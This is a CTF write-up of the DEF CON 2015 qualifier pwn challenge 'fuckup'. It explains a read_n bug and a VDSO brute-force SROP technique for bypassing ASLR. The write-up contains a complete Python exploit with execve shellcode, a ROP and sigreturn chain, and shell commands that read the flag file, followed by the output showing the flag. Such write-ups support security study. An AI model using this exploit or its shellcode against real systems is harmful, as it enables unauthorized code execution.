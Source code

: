 title: DEF CON CTF 2015 - fuckup (pwn3) Writeup
date: 2015-05-19 22:14:08
tags:
- writeup
- pwn
---

## Description
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:2000
> OR
> fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me:46387
> [Download](http://downloads.notmalware.ru/fuckup_56f604b0ea918206dcb332339a819344)

## Introduction

This is a PoC service for the new and improved ASLR, "Fully Unguessable Convoluted Kinetogenic Userspace Pseudoransomization"(F.U.C.K.U.P. for short).
Each time a user executes a command, F.U.C.K.U.P. changes the base address of memory where the binary is mapped according to a random number produced by the generation algorithm similar to WELL512.

We can select from the following commands:
 0. Quit: simply `return 0;`.
 1. Display info: Display an introduction. Nothing interesting.
 2. Change random: Generate a random value and move mappings correspondingly.
 3. View state info: Show the current random value and then change the value as same as "Change random".
 4. Test stack smash: Cause stack based buffer overflow by 100 bytes against a 10-byte buffer.

Actually, I don't know the detailed implementations of these commands except for "Test stack smash", for it was not I but another team member who coped with this challenge at first.
It seems that the author's intended solution is to use SMT solver like z3 to predict random values generated, and my teammate attempted to do that. 
It, however, however,, didn't work correctly since we were unfamiliar with and poor at using SMT solver.
So I decided to try to solve this problem by the really "pwnwise" solution.

First, I suspected Partial Overwrite could be used.
Yes, actually it can be.
Reading `stack_smash(sub_8048521)`, there is called `read_n(sub_8048363)` which simply receives input as this:
```C
sum = 0;
do {
    nread = read(0, addr, n-sum);
    if (nread != -1) sum += nread;
} while (sum < n);
```
As you may see, this implementation is weird because using `read(0, addr, n-sum)` instead of `read(0, addr+sum, n-sum)`.
Therefore, it is possible to do Partial Overwrite by splitting input into several.
[@wapiflapi](https://twitter.com/wapiflapi/), a great hacker in France shares the exploit using this method([http://hastebin.com/iyinepaxen.py](http://hastebin.com/iyinepaxen.py)).
Very simple, isn't it?

BUT I COULD NOT COME UP WITH IT.
Because I misread `read_n` as `read(0, addr+sum, n-sum)`.
So at that time I thought "Wow, nice security. I have no choice but to overwrite a buffer completely by 100 bytes. If I can't use Partial Overwrite, then how can I solve this...?". Too stupid.
Okay, let me explain how I solved this problem even though I couldn't use z3 and Partial Overwrite.

## Solution
Thinking that the return address is always overwritten by a buffer overflow, I had to overwrite it with some valid address.
Here, valid address means a address being mapped and executable.
So there are two possible ways to exploit the binary:
 1. Fix valid addresses somehow.
 2. Use the addresses which are always fixed.

I thought the former could be realized because the number of mapped addresses goes on increasing by `change_mapping(sub_80481A6)`.
In change_mapping, `mmap` is called like this:
```C
do
{
    seedf = randf(state) * 4294967295.0;
    seedl = (int)seedf;
    expect = (void *)(seedl & 0xFFFFF000);
    actual = mmap(expect, 0x7000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
} while (expect != actual);
```
As you can see, the mapped addresses won't be unmapped even if it fails to establish mappings at expected addresses.
Therefore, the more the number of mapped addresses has increased, the less the number of the possible addresses capable of being becomes.
But this approach isn't realistic because it needs to do "Change random" many times(about thouthands or hundreds of thouthands times).

The latter, actually, can be realized: using VDSO.
I think everyone knows this, but VDSO ASLR is weaker than ASLR on the other sections(that entropy is usually only 2 bytes) and there is a famous exploit method, Sigreturn Oriented Programming(SROP).
That means we can solve this problem by doing brute force 256 times.
It was a little bit difficult for me to write the exploit due to the limitation that I had to do ROP only with gadgets on VDSO and that I was allowed to use only 78 bytes for ROP.
sysenter is a good gadget for stack pivotting!
```python
import subprocess
import socket
import re
import sys
import random
from struct import pack, unpack
from Frame import SigreturnFrame
from time import sleep
from sys import argv

TARGET = ('localhost', 6666)
if len(argv) > 1:
    TARGET  = ('fuckup_56f604b0ea918206dcb332339a819344.quals.shallweplayaga.me', 2000)

OFFSET_SR   = 0x401
OFFSET_SC   = 0x42e
OFFSET_SY   = 0x425
OFFSET_POP  = 0x431
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x54\x59\x50\x5a\x6a\x0b\x58\xcd\x80"

RANGE_VDSO  = range(0xf7700000, 0xf7800000, 0x1000)

def recv_until(sock, pat):
    buf = b''
    while buf.find(pat) == -1:
        buf += sock.recv(1)
    return buf

def main():
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(TARGET)

        vdso = random.choice(RANGE_VDSO)
        stack_addr = vdso - 0x800
        shellcode_addr = vdso - 0x1000
        print "vdso:", hex(vdso)

        data = b'\x00' * (0x16)
        data += pack('<I', vdso + OFFSET_POP)   # pop edx, ecx
        data += pack("<I", 2304)                # edx
        data += pack("<I", shellcode_addr)      # ecx

        data += pack('<I', vdso + OFFSET_SC)    # read(eax=3)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)
        data += pack("<I", stack_addr)

        data += pack('<I', vdso + OFFSET_SY)    # sysenter 
 
        print "data:", len(data)
        data = data.ljust(100, 'A')
        assert(len(data) == 100)

        recv_until(sock, b'0. Quit')
        sock.sendall(b'4\n')
        recv_until(sock, b'stop code execution')

        sock.sendall(data[:-3])
        sock.sendall("")
        sleep(1)
        sock.sendall(data[-3:]) # eax = 3

        stack = ""
        stack += pack("<I", 0xdeadbeef) * 3
        stack += pack("<I", vdso + OFFSET_SR)

        frame = SigreturnFrame(arch="x86")
        frame.set_regvalue("eax", 0x7d)           # mprotect
        frame.set_regvalue("ebx", shellcode_addr) # addr
        frame.set_regvalue("ecx", 0x1000)         # len
        frame.set_regvalue("edx", 7)              # prot
        frame.set_regvalue("eip", vdso + OFFSET_SC)
        frame.set_regvalue("esp", stack_addr+0x80)
        frame.set_regvalue("ds", 0x2b)
        frame.set_regvalue("es", 0x2b)

        stack += frame.get_frame()
        stack += pack("<I", shellcode_addr) * 40
        
        sleep(1)

        payload = SHELLCODE
        payload = payload.ljust(0x800, "\x90")
        payload += stack
        print "payload:", len(payload)
        assert(len(payload) <= 0x1000)

        sleep(1)
        sock.sendall(payload)
        sleep(0.1)

        sock.sendall("ls\n")
        sock.sendall("ls /home\n")
        sock.sendall("ls /home/fuckup\n")
        sock.sendall("ls /home/fuckup/flag\n")
        sock.sendall("ls /home/fuckup/*flag*\n")
        sock.sendall("cat /home/fuckup/*flag*\n")

        sleep(1)

        resp = ""
        resp += sock.recv(65535)
        if resp == '' or resp == '\n':
            raise Exception("Failed")
        print [resp]
        raw_input()
        
if __name__ == '__main__':
    i = 1
    while True:
        print "\nTry {}:".format(i)
        try:
            main()
        except Exception as e:
            print e
            pass
        i += 1
```
Using [Frame.py](https://github.com/eQu1NoX/srop-poc/blob/master/Frame.py).

```
['\nbin\nboot\ndev\netc\nhome\ninitrd.img\ninitrd.img.old\nlib\nlib64\nlost+found\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\nvmlinuz\nvmlinuz.old\nfuckup\nubuntu\nflag\nfuckup\n/home/fuckup/flag\n/home/fuckup/flag\nThe flag is: z3 always helps\n']
```

##Summary
Sleep enough not to misread disas.

written by hugeh0ge([@hugeh0ge](https://twitter.com/hugeh0ge))
